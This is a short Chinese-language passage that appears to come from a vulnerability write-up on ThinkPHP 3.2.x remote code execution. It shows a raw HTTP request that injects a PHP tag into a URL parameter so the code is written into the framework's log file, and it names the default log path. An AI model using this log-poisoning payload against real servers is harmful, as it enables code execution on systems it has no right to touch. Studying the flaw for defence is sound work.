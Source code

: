 请求数据包：

```
GET /index.php?m=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：

> \Application\Runtime\Logs\Common\21_06_30.log

日志文件内容：

![image-20210712115017363](resource/ThinkPHP3.2.xRCE漏洞/image-20210712115017363.png)
